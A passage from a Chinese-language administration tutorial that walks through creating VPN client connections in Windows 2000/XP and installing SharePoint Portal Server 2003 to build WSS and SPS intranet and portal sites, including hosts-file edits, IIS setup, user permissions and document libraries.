- 第一步：单击“开始→控制面板→网络和拨号连接”，双击“新建连接”图标，打开“网络连接向导”，单击“下一步”按钮。
- 第二步：在“网络连接类型”对话框中选择“通过Internet连接到专用网络”选项，单击“下一步”按钮。
- 第三步：打开“目标地址”对话框，在“主机名或IP地址”中输入单位局域网VPN服务器的公网IP地址（如202.103.56.41），单击“下一步”按钮。
- 第四步：在“可用连接”对话框中，可以选择此连接仅允许本地计算机当前登录用户使用，还是可让本地计算机中所有用户使用。默认选项为“所有用户使用此连接”，你可以根据需要进行选择，建议选择“只是我自己使用此连接”，这样可以增加安全性。单击“下一步”按钮。
- 第五步：显示“完成网络连接向导”对话框，在此可以更改默认的连接名称。如果经常访问VPN服务器，可以选中“在我的桌面上添加快捷方式”选项，在桌面上添加一个该连接的快捷方式。
- 第六步：单击“完成”按钮，完成对虚拟拨号网络客户端的设置，同时系统自动打开“连接虚拟专用连接”对话框。如果用户此时没有连接到Internet上，请通过其他方式如拨号Modem、ADSL等连接到Internet上，再运行VPN连接。在用户名和密码框中分别输入VPN服务器分配的用户名和密码，然后单击“连接”按钮，开始连接VPN服务器。连接成功后，就可以和在局域网那样，访问远程的服务器和服务器所在的网络了。

##### （3）在Windows XP中建立VPN连接

在Windows XP中使用VPN连接，比在Windows 2000中又更进了一步，如果没有连接到Internet上，在拨叫VPN连接之前，Windows XP会自动先连接到Internet上，然后再连接到VPN服务器，具体操作步骤如下。

- 第一步：打开“开始→控制面板→网络和Internet连接→网络连接”，在左侧的“网络任务”窗格中单击“创建一个新的连接”，打开建立新连接向导，单击“下一步”按钮。
- 第二步：在“网络连接类型”对话框中，选中“连接到我的工作场所的网络”选项，单击“下一步”按钮。
- 第三步：在“网络连接”对话框中，选中“虚拟专用网络连接”选项，单击“下一步”按钮。
- 第四步：打开“连接名”对话框，在“公司名”文本框中输入一个连接名称，自己可随意命名，然后单击“下一步”按钮。
- 第五步：在“公用网络”对话框中，如果当前的计算机是拨号访问Internet的，则可以从“自动拨号初始连接”下拉列表中，选择到Internet的拨号连接，这样在使用VPN连接之前，系统会自动拨号到Internet上。如果当前计算机固定上网，或者用户愿意手动连接到Internet，则选中“不拨初始连接”选项，单击“下一步”按钮。
- 第六步：打开“VPN服务器选择”对话框，在“主机名或IP地址”文本框中输入单位局域网VPN服务器的公网IP地址（如202.103.56.41），然后单击“下一步”按钮，完成对VPN连接的创建。系统会自动打开VPN连接对话框，输入VPN服务器分配给的用户名和密码，单击“连接”按钮就可以登录远程的服务器。

### 二、用SharePoint Portal Server 2003建立办公站点

### 1. SharePoint Portal Server 2003简介传统网站都是由专业人员开发的，网站的内容也由专门的网站设计人员负责维护和更新。在这种情况下，如果领导或员工需要发布新闻或消息到本公司的网站上，会经过很多的步骤，这样既影响了工作效率，也影响了每个员工的积极性，而且也间接带来了网站内容陈旧、更新不及时的问题。专业的网站设计工具使用复杂，不适合普通用户操作，而使用微软公司推出的SharePoint Portal Server 2003创建的站点，任何用户只要会使用IE浏览器，就可以很轻松地完成网站内容的更新、网站的日常管理和维护。

Microsoft Office SharePoint Portal Server 2003（以下简称SPS2003）是Office 2003 System中的一部分，非常适合于创建企业使用的内部办公网站和对外的门户网站。它可以将业务流程中的人员、工作组和文档连接在一起，并将企业中分散的信息统一管理，便于用户就文档、项目和其他事项进行协作，SharePoint Portal Server还可以根据用户的功能和组织角色呈现特定应用程序和自定义内容。SharePoint Portal Server可与Windows资源管理器、Office应用程序和Web浏览器协同工作，帮助用户在整个组织范围内创建、管理和共享内容。企业可以将Windows Server 2003、Office 2003、SPS2003和SQL Server 2000集成在一起，用来创建将整个组织连接起来的统一门户网站。

SPS2003与其他网页设计工具相比主要有以下三个特点。

- 特点一：
SPS2003为普通用户提供了一个可以根据需要进行自定义的网站结构。它是现成可用的，无需从头开始创建网站。其他网页设计工具则可以让专业人员借助其丰富多彩的高级功能，从头开始创建具有专业外观的网站。

- 特点二：
使用SPS2003可以与同事就公共项目和文档展开协作；其他网页设计工具只提供了有限的协作功能，但它们具有很多高级技术功能，可以让专业人员创建较为传统的网站。

- 特点三：
SPS2003是实时的，即网站访问者可以立即看到管理员所做的任何更改，而在使用其他网页设计工具时，要首先构建一个网站，然后将其发布到服务器上，访问者才能看到。

由以上介绍可知，SPS2003创建网站具有协作功能，网站内容是实时更新的，更美妙之处在于它的易用性，可以使用它轻松创建简单、有效和具有专业外观的网站。SPS2003附带的主页和网站设计工具提供了一个清晰整洁的界面，只需很少的工作即可向网站添加内容、页面、图片、任务列表和联系信息。

#### 2. SharePoint Portal Server 2003的系统要求

##### （1）硬件要求
至少Intel Pentium III 500的处理器；至少512 MB内存；550 MB剩余硬盘空间，分区必须格式化为NTFS格式。

##### （2）软件要求
部署SPS2003的服务器上必须运行Windows Server 2003（包括标准版、企业版、数据中心版、Web服务器版），并且要安装最新的补丁，同时还必须安装IIS及相关组件（安装方法见下面的安装步骤）。如果要在域控制器上安装SPS，则必须不带数据库引擎进行安装（即必须安装SQL Server），在域控制器上安装时，带数据库引擎安装的选项不可用。

##### （3）数据库要求
SPS2003数据库服务器必须使用下列软件之一：
SQL Server 2000，另加最新的补丁SP4。
SQL Server 2000企业版，另加最新的补丁SP4。
Microsoft SQL Server 2000 Desktop Engine（MSDE2000，必须使用由SharePoint Portal Server安装的MSDE2000版本）。

##### （4）网络要求
SPS2003需要安装在“域”的环境中，并且只在作为Windows NT 4.0、Windows 2000或Windows Server 2003域内的成员的服务器（安装Windows Server 2003）上才能支持SPS2003。

仅当服务器是域的成员，而不是工作组的成员时，才会支持安装和操作SPS计算机。服务器场中所有服务器必须是同一个域的成员。

也可以把SPS2003安装在独立的服务器中（没有加入Active Directory）的网络中，即“无域”的环境。这时，推荐使用SPS2003自带的数据库引擎MSDE，下面的实例中我们使用的就是这种方法。

##### （5）客户端要求
客户端工作站至少要是Intel Pentium III 200 MHz、64 MB内存、500 MB硬盘空间（Windows 98和Windows NT 4.0）或30 MB硬盘空间（Windows 2000和Windows XP）的计算机，工作站操作系统可以是Windows 98/NT/2000/XP专业版/Server 2003，并且安装最新的补丁，客户端浏览器必须是IE 5.01以上版本。

#### 3. SharePoint Portal Server 2003安装配置

SharePoint Portal Server 2003安装光盘中集成了SQL Server Desktop Engine，如果不想使用SQL Server来存储数据库，则可以在安装SharePoint Portal Server 2003时，安装SQL Server Desktop Engine，但SQL Server Desktop Engine的吞吐能力有限，最大只能支持2 GB的数据库。如果部署需要更大的可扩展性或者必须存储2 GB以上的文档，则建议使用SQL Server。

从前面的介绍可知，SPS2003既可以安装在活动目录服务器上（有“域”的网络），也可以安装在单独的服务器上（无“域”的网络），由于活动目录服务器的安装和配置比较复杂，一般用户不常用，所以，我们这里就以在单独的服务器上安装SPS2003为例介绍，这也是普通用户最常用的一种方法。

第一步：
安装SPS2003之前，要注意服务器的计算机名，最好修改成一个简单易记的名称，这在以后的管理中要用到。修改名称的操作是：右键单击“我的电脑”，在弹出的快捷菜单中选择“属性”，打开“系统属性”窗口，在“计算机名”选项卡中，单击“更改”按钮，弹出修改窗口，在“计算机名”文本框中输入新的名称，如“Xxdd”，然后单击两次“确定”按钮即可。

第二步：
安装IIS及其组件。以管理员身份登录Windows Server 2003，单击“开始→控制面板→添加/删除程序→添加/删除Windows组件”命令，选中“应用程序服务器”选项，单击“详细信息”按钮，选中“Asp.Net、Internet信息服务（IIS）、启用网络COM+服务”及“Internet信息服务（IIS）”中的“Internet信息服务管理器”和“公用文件”，然后单击“确定”按钮返回即可。在安装组件过程中需要在光驱中放入Windows Server 2003安装盘。

第三步：
将SPS2003安装光盘放入光驱中，自动弹出安装界面，单击“安装Microsoft Office SharePoint Portal Server 2003组件”，然后单击“下一步”按钮。

第四步：
在开始安装之前，SPS2003安装程序会提示，需要暂时停止一些服务，单击“确定”按钮后进入安装向导，单击“下一步”按钮。

第五步：
在“最终用户许可协议”页中选择“我接受《许可协议》中的条款”选项，然后单击“下一步”按钮。

第六步：
在“产品密钥”页中输入安装序列号，单击“下一步”按钮。

第七步：
在“安装类型和文件位置”页中，可以选择安装SQL Server 2000或者选择不安装SQL Server，而是使用SPS2003自带的MSDE。我们选择不安装SQL 2000，即选中“安装（包含数据库引擎”选项，单击“下一步”按钮，程序开始自动安装。

第八步：
安装完毕后，进入“配置服务器场账户设置”页，在“电子邮件地址”文本框中输入管理员的电子邮件地址，然后单击“确定”按钮。

第九步：
进入创建门户网站的页面，这里我们先关闭此窗口，然后我们将详细介绍。

至此，我们已经完成了SPS2003的安装，下面就可以用它创建网站了。

#### 4. 创建WSS站点

在创建网站之前，我们首先要明白，SharePoint Portal Server 2003可以创建两种类型站点：WSS网站和SPS网站。WSS网站（Windows SharePoint Services）主要用于内部门户站点，功能较简单，一般用于部门网站和个人使用；SPS网站（SharePoint Portal Server）在WSS网站的基础上进行了扩展，功能更多更强大，一般用来创建公司的内部或外部门户站点。这两种类型的站点由于适用的对象、范围不同，所以功能上也有比较大的差别，下面我们就逐一进行介绍，以满足不同用户的需要。

##### （1）配置工作环境

无论创建WSS网站还是SPS网站，都需要从现有的网站扩展或升级，因此，我们可以先创建一个“空”网站，然后再升级到WSS网站或SPS网站。

我们假设要建立的WSS网站域名为Wss.Askme.Cn，这个WSS网站保存在内网地址为192.168.1.100的计算机上（即刚才安装SPS2003的服务器），在公司内部的局域网中，同样使用http://Wss.Askme.Cn域名为局域网内部提供服务并且进行管理。

第一步：编辑Hosts文件
为了保证局域网中的每台计算机都能够正确地将IP地址解析为域名，我们需要在访问WSS网站的每一台计算机中（包括安装SPS2003的服务器）编辑Hosts文件，该文件默认在“C:\Windows\System32\Drivers\Etc”目录下，用记事本打开Hosts文件，在文件末尾添加以下一行：
192.168.1.100 Wss.Askme.Cn
这样就可以将地址正确地解析了（见图7）。


```
# Copyright (c) 1993-1999 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

127.0.0.1       localhost
192.168.1.100   wss.askme.cn
```

第二步：建立文件夹
在SPS2003服务器上，创建一个空白文件夹，用此文件夹保存将要创建的Wss网站，例如我们在C盘创建一个名为Wss.Askme.Cn的文件夹。

第三步：在IIS中创建WSS网站
单击“开始→管理工具→Internet信息服务(IIS)管理器”命令，打开“Internet信息服务管理器”，展开左侧的目录树，选中“网站”，然后单击“操作→新建→网站”命令，出现建立新网站向导，单击“下一步”按钮。

第四步：输入网站描述
在文本框中输入网站描述，如“WSS网站”，单击“下一步”按钮。在“此网站的主机头”文本框中输入“Wss.Askme.Cn”，其他用系统的默认值，单击“下一步”按钮。

第五步：输入浏览路径
单击“路径”右边的“浏览”按钮，选中我们上面建立的文件夹，即C:\Wss.Askme.Cn文件夹，同时选中“允许匿名访问网站”选项，单击“下一步”按钮。

第六步：设置访问权限
在“网站访问权限”设置窗口中，选中“读取”和“运行脚本”两项，然后单击“下一步”按钮完成网站的创建。
如果想将此网站发布到互联网上，让更多的人能浏览到，则需要在SPS2003的服务器上正确配置网关地址并连接到Internet，同时在代理服务器的路由器上（或其他代理软、硬件）将公网地址（如202.89.153.24）映射到SPS2003服务器（192.168.1.100）即可。我们后面介绍的SPS网站也需要这样操作才能发布到互联网上。

##### （2）建立WSS网站

工作环境配置完成后，下面就开始正式在SharePoint Portal Server 2003中创建WSS站点了。

第一步：
单击“开始→所有程序→SharePoint Portal Server→SharePoint管理中心”命令，打开“管理中心”页面（见图8）。


第二步：
在左侧列表中有两个链接，分别是“Windows SharePoint Services”和“SharePoint Portal Server”，前者用来管理WSS网站，后者用来管理SPS网站。由于我们要建立的是WSS网站，所以用鼠标单击左侧的“Windows SharePoint Services”链接，然后在右侧的窗格中单击“扩展或升级虚拟服务器”链接，打开“虚拟服务器列表”页，在此页中单击“Wss.Askme.Cn”扩展此虚拟服务器。

第三步：
在“扩展虚拟服务器”页中，单击“扩展并创建内容数据库”链接，进入“扩展和创建内容数据库”页（见图9）。在“应用程序池”栏中，选择“新建应用程序池”选项，然后在“应用程序池名称”文本框中输入一个名称，如“Wss8”，在“配置账户”文本框中输入管理员用户名（如Administrator）及密码。在“网站所有者”项目中，“用户名”采用默认值，在“电子邮件”文本框中输入网站管理者的邮箱。在“网站语言”项目中，单击“语言”下拉列表框，选择“中文_简体”即可，其他项目采用默认值，


最后单击“确定”按钮，开始创建WSS网站。
创建过程有进度条显示，等待几分钟后，网站创建成功。当WSS网站创建完成后，还要进行一些设置才能正常工作。

##### （3）更改网站设置

为了对SPS2003创建的网站进行管理，一定要在管理WSS网站的计算机上完全安装Office 2003，如果不能完全安装，则至少要安装Office 2003中的“Windows SharePoint Services支持”组件。

如果想在SPS2003服务器上完成对WSS网站的最初设置，可以在创建WSS网站成功后的页面中单击“新顶级网站的URL”后的http://Wss.Askme.Cn或者在IE地址栏中输入“http://Wss.Askme.Cn”，然后按回车键。

如果想在工作站上管理WSS网站，可以在IE地址栏中输入“http://Wss.Askme.Cn”然后按回车键，将会弹出一个对话框，在“用户名”中输入管理员账户名称（如Administrator），在“密码”框中输入管理员账户的密码，然后单击“确定”按钮。

无论是在SPS2003服务上，还是在工作站上，当第一次进入WSS网站时，首先进入“模板选择”页（见图10），在“模板”列表框中选择新扩展的网站将要使用的模板，虽然模板很多，但基本功能都差不多，这里我们就选择功能较多，使用较普遍的“工作组网站”模板，下面章节介绍的操作都是基于该模板创建的网站来进行的，单击“确定”按钮，进入主页（见图11）。


为了更好地使用该网站，我们还需要对它进行一些设置。单击网站上部的“网站设置”按钮，进入“网站设置”页，在此页中就可以完成管理用户、管理网站、更改网站标题等设置，下面分别进行介绍。

##### （4）网站操作设置

###### 设置一：更改网站标题
在“网站设置”页中，单击“自定义”项目中的“更改网站标题和说明”链接，打开修改网站标题页面，在“标题”文本框中输入网站的名称，在“说明”文本框中输入网站的简介（也可以保持为空），然后单击“确定”按钮返回，修改立即生效，我们可以看到网站顶部的标题已经更改。

###### 设置二：更改网站主题
在“网站设置”页中，单击“自定义”项目中的“将主题应用于网站”链接，打开主题选项页，在右侧的主题列表中选择某个主题，在左侧就可以查看该主题预览效果。选中合适的主题后，单击“应用”按钮，即可将主题应用于网站。

在“修改网站内容”链接中，可以自定义“共享文档、联系人、链接、任务、事件、通知、一般讨论”等内容，你可以根据需要进行更改，这里我们先不做修改。

###### 设置三：自定义主页框架和内容
在“网站设置”页中，单击“自定义”项目中的“自定义主页”链接，打开自定义主页设置页，在右侧的“添加Web部件”列表中，选中要添加的组件，在下部的“添加到”下拉列表中选择添加的位置，然后单击“添加”按钮进行添加。除此之外，你还可以用鼠标拖动某个部件到指定的位置。

如果想要删除某个部件，只需单击部件右上角的叉号关闭按钮即可把它删除。

###### 设置四：管理用户
在创建或管理WSS网站时，都需要访问者有相应的访问或者创建权限，因此，为了让更多的用户可以编辑网站，管理员必须要给网站添加更多的管理用户，以便他们也能对网站进行管理。添加用户的操作步骤如下：

在“网站设置”页，单击“管理”项目中的“管理用户”链接，进入“管理用户”页，我们看到，目前只有Administrator用户能够使用本网站，因此，需要为其他用户分配权限。

单击“添加用户”按钮，打开添加用户页面，在“用户”文本框中输入想要添加的用户或用户组，多个用户和用户组之间用分号分隔，然后在“网站用户组”中选择赋予用户的权限。“读者”权限对网站只有访问权，“讨论参与者”可以在文档库和列表添加内容，“网站设计者”除了“讨论参与者”权限外还能创建列表和文档库，以及自定义网页的权限，“管理员”具有完全的控制权。通常情况下，设置“网站设计者”权限即可。关于在Windows Server 2003中添加用户和用户组的方法，请在“控制面板”中的“计算机管理”中进行设置。单击“下一步”按钮，进入下一步骤，在此页中可以输入每一个用户的电子邮件地址及显示名称，一旦输入，就不能修改，所以一定要输入正确。

另外，还可以根据需要，决定是否给添加到WSS网站中的用户发送电子邮件，因为我们还没有配置SMTP邮件服务器，所以在此先不要选中“发送以下电子邮件以通知这些用户他们已被添加”选项。单击“完成”按钮，添加用户完成。

##### （5）网站具体操作管理

###### A. 在WSS网站中创建个人网站
在WSS网站中我们还可以给某个用户单独建立一个网站，以便让用户管理自己的网站。创建个人网站的方法如下：

- 第一步：
以管理员账户登录到WSS网站首页，单击“网站设置”按钮，打开网站设置页，在“管理”项目中单击“管理网站和工作区”链接，打开“网站和工作区”页。

- 第二步：
单击“创建”按钮，进入“新建SharePoint网站”页（见图12）。


- 第三步：
在“标题”文本框中输入网站的标题，在“说明”文本框中输入网站的简介，在“URL名称”文本框中输入本网站的URL地址，在“用户权限”项目中选择新建网站的权限，默认为“使用与父网站相同的权限”，如果想单独管理，则选择“使用独有权限”选项，然后单击“创建”按钮。

- 第四步：
进入“模板选择”页，选择一个合适的网站模板，然后单击“确定”按钮。

- 第五步：
程序自动打开新建个人网站，浏览网站后，可以单击右上角的“向上至××”返回上一级网站。

###### B. 创建网站工作区
在WSS网站首页中，单击“网站设置→管理网站和工作区”，进入“网站和工作区”设置页，先单击左侧列表中的“文档工作区”链接，然后单击“创建”按钮，进入“新建SharePoint网站”页，在“标题、说明、URL名称、用户权限”中输入相应的信息并选择合适的权限，单击“创建”按钮，进入“模板选择”页，从中选择“文档工作区”模板，单击“确定”按钮，新工作区创建完成。

###### C. 创建分类库
在WSS网站中，任何授权用户可以很容易地上传资料到网站中，管理员也可以创建不同的“分类库”来保存用户上传的文档或资料。

在WSS网站首页中，单击顶部的“创建”链接，打开“创建网页”页面，在此页中就可以创建“文档库、表单库、图片库、链接、通知、联系人、事件、任务、问题、讨论板、调查、网站和工作区”等，内容非常丰富，用户可以根据自己的要求进行创建。由于要创建的内容较多，这里我们只介绍几个常用的库，其他功能可以参照本节说明进行创建，操作大同小异。

###### D. 创建文档库

在“创建网页”页面中，单击“文档库”链接，进入“新建文档库”页面，在“名称”文本框中输入新建文档库的名称，如“公司档案资料库”。在“说明”文本框中输入对新建文档库的介绍，并根据需要选择是否将新建的文档库添加到“快速启动”栏中。在“文档版本”栏中选择是否创建副本。在“文档模板”下拉列表框中选择新建的文档库将要保存的文件格式，最后单击“创建”按钮，完成文档库的创建。然后就可以在打开的“公司档案资料库”页面中单击“新建文档”、“上传文档”、“新建文件夹”等功能按钮完成相应的操作。对于建立好的文档库，任何用户只要单击“文档和列表”链接，并从中选择建立好的文档库，就可以浏览、查看、创建或上传文档。

###### E. 创建图片库

在“创建网页”页面中，单击“图片库”链接，打开“新建图片库”页面，在“名称”文本框中输入名称，如“公司产品图片”，在“说明”文本框中输入对图片库的介绍。同时可根据需要选择是否在“快速启动”栏上显示和是否创建副本，一般选默认值即可，最后单击“创建”按钮，完成创建，同时自动打开“公司产品图片”页面，利用其上部的工具按钮就可以完成添加/删除图片、编辑图片、新建文件夹等操作。

###### F. 添加通知

在WSS网站中添加通知、发布消息是一件很容易的事情，不但网管，即使是一个普通用户也能很快地发布通知。

- 第一步：在WSS网站主页中单击“添加新通知”，打开新建通知页面（见图13）。

- 第二步：在“标题”文本框中输入通知的标题，在“正文”文本框中编辑通知的正文内容，就像在Word中编辑文档一样，可以设置字体、大小、样式、颜色、排列方式等属性。单击“截止日期”右边的日历图标，选择通知的最后显示时间（到达指定日期后，通知将不再显示）。

单击上部的“附加文件”按钮，还可以给通知添加一个附件。全部设置完毕，单击“保存并关闭”按钮返回网站主页，新添加的通知会立刻显示在网站中。

###### G. 添加重复事件

对于公司来说，总有一些周期性的固定事件发生，如每周一上午开例会，每月九号发工资等，对于这些事件，因为内容都是固定的，所以可以一次性地创建这些事件，让它按照指定的时间发布到网站上，这样就减轻了我们每次都要创建一次性事件的重复劳动，提高工作效率。

- 第一步：在WSS网站主页中，单击“添加新事件”链接，打开新建事件页。

- 第二步：添加事件的“标题、开始时间、结束时间、说明、地点、重复周期”等内容，如果是普通的例行事件，单击“保存并关闭”按钮即可创建完毕。

- 第三步：如果是一些比较重要的事件，或者允许大家在事件发生之前进行讨论，或者主办者公布事件的议程、文档，则需要在“工作区”后面选中“使用会议工作区可组织此事件的与会者、议程、文档、纪要和其他详细信息”选项，然后单击“保存并关闭”按钮，进入“新建会议工作区”页。

如果当前登录的用户没有创建工作区的权限，则会弹出登录窗口，此时需要输入管理员账户及密码。

如果以前创建了工作区，则可以选择“链接到现有工作区”，如果还没有创建或者想创建一个新的工作区，则选择“新会议工作区”，然后输入新工作区的标题、URL名称、用户权限等，这与前面创建个人网站是一样的。设置完之后，单击“确定”按钮进入“模板选择”页，从此页中选择会议工作区模板，然后单击“确定”按钮，进入新建会议工作区的主页。

从新建的主页可以看到，在左侧有一系列以时间命名的链接，单击这些链接，将进入指定时间的页面。而在右侧则有“主页”、“页面1”、“页面2”等项，在每项中可以添加目标、议程及选择与会者，这些操作都比较简单。

当前操作完毕后，单击“向上至××网站”，回到WSS主页。

###### H. 添加链接

如果有需要经常访问的网站，可以将这些网站的网址添加到主页中的“链接”栏中，以后就可以快速访问这些网站。

添加链接的操作非常简单，只要在WSS网站主页上，单击“添加新链接”链接，打开“新建链接”页面，在“URL”文本框中输入网站的网址，在“请键入说明”文本框中输入网站的名称，“备注”内容可选填，然后单击“保存并关闭”按钮，即可完成。

## 1. 上传和编辑文档

SPS2003与Office 2003高度集成，在WSS网站中，不但可以随时上传已经创建好的文档，而且还可以直接编辑文档并保存到网站中，具体操作如下。

- 第一步：在WSS网站主页上单击“文档和列表”链接，打开文档和列表页面，单击某个已经建立好的文档库，例如我们前面创建好的“公司档案资料库”（如果没有创建自己的文档库，也可以直接单击“共享文档”），在打开的文档库中单击“新建文档”按钮，弹出一个警告对话框，直接单击“确定”按钮，又弹出一个对话框，输入用户名和密码（此用户作为文档的所有者保存在文档上传信息中），然后单击“确定”按钮，打开Word程序。

- 第二步：使用Word在线编辑文档，完成之后单击“保存”按钮，将打开“另存为”页，在“文件名”文本框中输入保存名称，单击“保存”按钮，在Word中编辑的文档将自动上传到WSS网站并保存在指定位置。

- 第三步：对于已经编辑好的文档，例如各种产品资料、技术文档、制度等，可以直接在打开的文档库页面中单击“上载文档”按钮，然后单击“浏览”按钮选中文档，单击“保存并关闭”按钮，即可将文档上传到WSS网站文档库中，以后其他用户就可以查看到你上传的文档。

## （5）使用WSS模板

利用模板可以显著提高创建网站的效率，而且你还可以把自己设计好的网站另存为模板与他人共享。微软公司为了提高SharePoint Portal Server技术的应用，专门开发出了12套中文模板，供广大用户免费下载使用，这些模板涉及到政府部门内部网站、企业销售部门网站、企业人事部门网站、企业IT技术部门网站、学校班组网站等不同应用环境，用户可以到微软官方网站的下载中心下载这些模板。

###### A. 将模板上载到网站

- 第一步：将下载的模板文件解压缩到硬盘中的某个目录下。

- 第二步：以管理员身份登录到Wss.Askme.Cn网站，单击“网站设置”链接，进入“网站设置”页，在“管理”项目中单击“转到网站管理”链接，然后在“网站集库”项目中单击“管理网站模板库”链接。

- 第三步：在“网站模板库”页中，单击“上载模板”按钮，在弹出的“上载模板”页中，单击“浏览”按钮，选择已经解压缩的网站模板文件（带Stp后缀的文件）。

- 第四步：单击“保存并关闭”按钮返回到上载模板页，可以再次单击“上载模板”按钮上载其他模板。重复以上操作，直至所有模板全部上载完毕。

###### B. 使用模板创建站点

使用模板创建站点，实际上是在保存这些模板的站点中创建新的子站点，然后选择新上载的模板就可以了，具体操作步骤如下：

- 第一步：以管理员身份登录“Wss.Askme.Cn”网站，单击“创建”链接，在“网页”栏中单击“网站和工作区”链接。

- 第二步：打开“新建SharePoint网站”页，在“标题、说明”文本框中输入相关信息，在“URL名称”文本框中输入一个名称，例如我们要创建一个企业销售部门的网站，就输入个“Xiaoshou”名称，然后单击“创建”按钮。

- 第三步：在“模板选择”页中，从“模板”列表框中选择“企业销售部门网站”，然后单击“确定”按钮，完成该网站的创建，以后就可以在IE地址栏中输入“http://Wss.Askme.Cn/Xiaoshou”来访问该站点。

这些新建站点的使用，与WSS网站的使用方法一样，可以根据需要，利用WSS模板建立多个子站点。另外，用户还可以在WSS主页中单击“添加新链接”链接，把新建的多个子站点添加到网站中，以便快速访问。

对于每一个WSS网站，在“网站设置→管理用户”中，如果“NT AUTHORITY\Authenticated Users”后面对应的权限为“讨论参与者”，则需要选择“网站设置→管理用户→转到网站管理→更改匿名访问”，打开“更改匿名访问设置”页，在“所有验证用户”栏中，在“将用户分配到以下网站用户组”下拉列表框中选择“讨论参与者”，这时才能匿名访问该站点。

#### 5. 创建SPS站点

##### （1）WSS网站与SPS网站的差异

WSS（Windows SharePoint Services）网站创建简单，维护使用方便，主要用于内部门户站点，它创建的是类似于以前Office XP组件中的“工作组式”的SharePoint网站，可以满足部门级和个人使用。SPS网站（SharePoint Portal Server）是在WSS网站基础上，对WSS网站做了扩充和改进，用来提供更多功能的门户网站，它既可以用于内部门户站点，也可以用于企业对外的门户站点，它创建的是企业级的站点。

前面我们介绍了WSS网站建立和管理的方法，从中我们可以发现，WSS网站虽然简单方便，易于管理，但在使用中却存在以下这些问题：

匿名用户访问问题：匿名用户在访问WSS网站时也能在网页上看到“创建”、“网站设置”等只有管理员才能使用的功能，当匿名用户单击这两个链接时，会弹出身份验证窗口，由于匿名用户没有对应的账户，所以会出现错误页。对于一个成熟的网站来说，当匿名用户访问时，不应该出现匿名用户没有操作权限的功能链接。

页面编辑权限问题：WSS网站不能给每个页面分配权限，如果某一用户只有“网站设计者”权限，他就可以对本网站中的所有栏目有创建权限和自定义权限，而不能给某一栏目指定特定的用户来编辑。

###### 网站功能

WSS网站功能显得比较单一，如果作为一个对外发布的企业门户网站，它还缺少很多应该具有的功能，SPS网站的功能则强大得多，更适合作为一个企业门户网站对外发布。

###### 搜索功能

在安装WSS时，如果选择的是不安装SQL Server2000，而是使用SharePoint Portal Server 2003自带的MSDE数据库引擎，则建立的WSS网站将没有搜索功能，即使安装了SQL Server 2000，所建立的WSS网站的搜索功能也比较有限。SPS网站则大大增强了搜索功能，可以对网站内的所有资源进行搜索，并且可以自定义搜索的方式。

##### （2）建立SPS站点

我们要创建的SPS网站将发布到Internet上并对外提供服务，其对外发布的域名是sps.askme.cn。这个SPS网站保存在内网地址为192.168.1.10的计算机上（也就是安装SharePoint Portal Server 2003的计算机），在内部局域网中，同样使用http://sps.askme.cn为局域网内部提供服务并且进行管理。

与创建WSS网站类似，SPS网站也需要从现有的网站扩展或升级，所以我们需要先建立一个“空”网站，然后再把它升级成SPS门户网站。

###### 第一步：创建网站使用的DNS名称

首先需要编辑Hosts文件，这样才能正确地解析IP地址和域名，方法是，用记事本打开C:\Windows\System32\Drivers\Etc目录下的Hosts文件，在文档的最后添加以下一行内容（见图14）：

```
192.168.1.10 sps.askme.cn
```

其中192.168.1.10是安装SharePoint Portal Server 2003服务器的IP地址，你可以根据自己的设置改动。

###### 第二步：在IIS中创建空白网站

在SharePoint Portal Server 2003服务器上，在一个NTFS文件系统的分区上，例如C盘，创建一个名为sps.askme.cn的文件夹（名称可以随意命名）。然后单击“开始→管理工具→Internet信息服务管理器”，打开“Internet信息服务管理器”窗口，右键单击左边窗口目录树中的“网站”项，在弹出的快捷菜单中选择“新建→网站”命令，出现网站创建向导欢迎画面。

单击“下一步”按钮，在“网站描述”对话框中，输入网站描述，本例我们输入“Sps站点”。网站描述能够帮助管理员辨别站点，它并不会影响建立的操作或内容。

单击“下一步”按钮，进行IP地址和端口的设置（见图15），保持“网站IP地址”和“网站TCP端口”的默认值，在“此网站的主机头”文本框中输入“sps.askme.cn”，在“网站主目录”对话框中，单击“浏览”按钮，选择我们已经建立的文件夹C:\sps.askme.cn，单击“下一步”按钮。

在“网站访问权限”对话框中，选中“读取”和“运行脚本”两项，完成网站的创建。

###### 第三步：在SharePoint Portal Server 2003中创建SPS网站

单击“开始→所有程序→SharePoint Portal Server 2003→SharePoint管理中心”，进入“SharePoint管理中心”设置页面，单击左侧列表中的“Share Point Portal Server”链接，就可以在右侧窗口中显示创建门户网站的内容（见图16）。

在“门户创建选项”项目中选中“创建门户”选项；在“网络名称”项目中的“名称”文本框中输入新建门户网站的名称，如输入“星星点灯科技有限公司网站”，这个名称将显示在所建网站的顶部位置，在网站URL项目中的“虚拟服务器”下拉列表中选择“Sps站点”；在“所有者”项目中的“电子邮件地址”文本框中输入管理员的电子邮件地址，其他全部按系统默认的设置，最后单击“确定”按钮，出现“创建门户网站确认”页，单击“确定”按钮，开始创建网站。在创建网站过程中，程序会显示一个进度条，显示创建的进度，门户网站创建完成后，出现“操作成功”的提示页，单击其中的“主页：http://sps.askme.cn”链接，弹出“连接到sps.askme.cn”对话窗口（见图17），在其中输入管理员账户（Administrator，这是系统默认的管理员账户）及密码，然后单击“确定”按钮，就可以进入创建的门户网站了。

##### （3）网站栏目管理

打开IE浏览器，在地址栏中输入“http://sps.askme.cn”门户网站域名，然后回车，在弹出的登录对话框中输入管理员账户（Administrator）及密码，打开门户网站的主页，我们可以看到，默认创建的门户网站只有“主页”、“主题”、“新闻”、“网站”四个栏目，这与我们要创建的公司门户网站还有一定差距，因此我们要对它进行改造，使它更符合我们的要求。

在SharePoint Portal Server 2003中，通过使用“区域”将内容分组管理，给用户提供直观的导航。在默认的门户网站中，“主页”、“主题”、“新闻”、“网站”就是不同区域，我们可以根据需要创建、删除或移动区域，而且还可以创建子区域，从而改变用户门户网站的视图。区域提供了一种描述和寻找文档的灵活方式，通过它可将读者指引到他们要寻找的信息。

###### A. 更改当前页的设置

对于网站默认的“主页”、“主题”、“新闻”、“网站”四个不同区域（或栏目），每个区域都可以有自己的设置，我们只需单击相应的区域名称，然后在左侧的“动作”列表中单击“更改设置链接”，就可以修改当前区域的设置。

